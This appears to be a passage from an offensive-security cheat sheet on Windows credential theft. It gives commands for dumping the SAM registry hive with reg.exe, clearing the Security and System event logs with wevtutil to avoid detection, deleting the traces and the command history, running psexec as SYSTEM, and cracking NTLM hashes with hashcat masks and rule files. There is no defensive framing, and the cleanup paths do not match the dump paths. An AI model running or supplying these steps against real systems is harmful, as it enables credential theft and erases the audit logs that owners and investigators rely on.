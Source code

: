 ## Defense Evasion

### Avoiding Detection
```bash
# Use living-off-the-land binaries
reg.exe save hklm\sam C:\windows\temp\sam.save

# Clear event logs
wevtutil.exe cl Security
wevtutil.exe cl System

# Use alternative locations
reg.exe save hklm\sam C:\users\public\sam.save
```

### Cleanup
```cmd
# Remove saved hives
del C:\temp\sam.save
del C:\temp\system.save
del C:\temp\security.save

# Clear command history
doskey /history > nul
```

## Common Issues and Solutions

### Access Denied
```bash
# Ensure you have admin rights
net user %username% | findstr "Local Group Memberships"

# Run as SYSTEM
psexec.exe -i -s cmd.exe
```

### Large Hash Files
```bash
# Split large hash files
split -l 1000 hashes.txt hash_part_

# Crack in parallel
hashcat -m 1000 hash_part_aa wordlist.txt &
hashcat -m 1000 hash_part_ab wordlist.txt &
```

### Slow Cracking
```bash
# Use mask attacks for known patterns
hashcat -m 1000 hashes.txt -a 3 ?u?l?l?l?l?l?d?d?d?d

# Use rules for common patterns
hashcat -m 1000 hashes.txt wordlist.txt -r /usr/share/hashcat/rules/rockyou-30000.rule
```
